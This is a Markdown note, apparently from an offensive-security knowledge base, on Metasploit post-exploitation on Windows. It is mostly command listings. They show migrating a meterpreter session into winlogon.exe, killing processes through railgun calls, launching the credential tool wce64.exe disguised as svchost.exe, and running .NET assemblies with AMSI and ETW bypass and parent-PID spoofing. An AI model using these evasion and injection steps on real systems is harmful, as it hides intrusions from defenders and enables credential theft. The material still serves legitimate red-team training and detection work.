 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - process-injection
  - metasploit-framework
  - windows
---
```

# Metasploit

## 01 - Migrate Process

### 1.1 - Help Menu

![[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^5d49fa]]

### 1.2 - Usage

```
meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

TODO: Fill this info

```
msf > use post/windows/manage/migrate
```

```
msf > use post/windows/manage/priv_migrate
```

```
msf > use post/windows/manage/archmigrate
```

## 02 - Terminate Process

### 2.1 - Process ID

Terminate process ID.

![[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^ce813b]]

We'll create a new handle by retrieving the process ID. Then define a process handle `_['return']` after the conditions has been met. Terminate by calling the railgun function with zero exit code as an indication the process has been killed.

```
meterpreter > irb

>> client.railgun.kernel32.OpenProcess("PROCESS_TERMINATE", false, <pid>)

>> process_handle = _['return'] -> define a process handle

>> client.railgun.kernel32.TerminateProcess(process_handle, 0)
```

### 2.2 - Process Name

![[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/03 - Process Manipulation/Linux/C2 Frameworks/Metasploit#^365cba]]

## 03 - Inject Process

### 3.1 - Execute Process

Spawn a executable program as a dummy process with `-d` flag.

```
meterpreter > execute -Hicmd svchost.exe -f /usr/share/windows-resources/wce/wce64.exe -a "-h"
```

### 3.2 - DotNET CLR Assembly

```
msf > use post/windows/manage/execute_dotnet_assembly

msf post(windows/manage/execute_dotnet_assembly) > options

Module options (post/windows/manage/execute_dotnet_assembly):

  Name            Current Setting  Required  Description
  ----            ---------------  --------  -----------
  AMSIBYPASS      true             yes       Enable Amsi bypass
  ARGUMENTS                        no        Command line arguments
  DOTNET_EXE                       yes       Assembly file name
  ETWBYPASS       true             yes       Enable Etw bypass
  PID             0                no        Pid  to inject
  PPID            0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
  PROCESS         notepad.exe      no        Process to spawn
  SESSION                          yes       The session to run this module on
  Signature       Automatic        yes       The Main function signature (Accepted: Automatic, Main(), Main(string[]))
  USETHREADTOKEN  true             no        Spawn process with thread impersonation
  WAIT            10               no        Time in seconds to wait


View the full module info with the info, or info -d command.

msf post(windows/manage/execute_dotnet_assembly) > set dotnet_exe /path/to/compiled_dotnet_tool.exe

msf post(windows/manage/execute_dotnet_assembly) > set arguments [arguments]

msf post(windows/manage/execute_dotnet_assembly) > set signature <Automatic | Main() | Main(string[])>

msf post(windows/manage/execute_dotnet_assembly) > set amsibypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set etwbypass <true | false>

msf post(windows/manage/execute_dotnet_assembly) > set process [process_name.exe]

msf post(windows/manage/execute_dotnet_assembly) > set pid [process_ID]

msf post(windows/manage/execute_dotnet_assembly) > set ppid [<parent_process_ID>]

msf post(windows/manage/execute_dotnet_assembly) > set usethreadtoken [true | false]

msf post(windows/manage/execute_dotnet_assembly) > set wait [seconds]

msf post(windows/manage/execute_dotnet_assembly) > set session <session_ID>

msf post(windows/manage/execute_dotnet_assembly) > run
```

`meterpeter` one-liner execution.

```
meterpreter > run post/windows/manage/execute_dotnet_assembly dotnet_exe=/path/to/compiled_dotnet_tool.exe [arguments="<arguments>"] signature=<Automatic | Main() | Main(string[])> set amsibypass=<true | false> etwbypass=<true | false> [process=<process_name>.exe] [pid=<process_ID>] [ppid=<parent_process_ID>] [usethreadtoken=<true | false>] [wait=<seconds>]
```

---
## References

- [Pentestlab Blog: Parent PID Spoofing](https://pentestlab.blog/2020/02/24/parent-pid-spoofing/)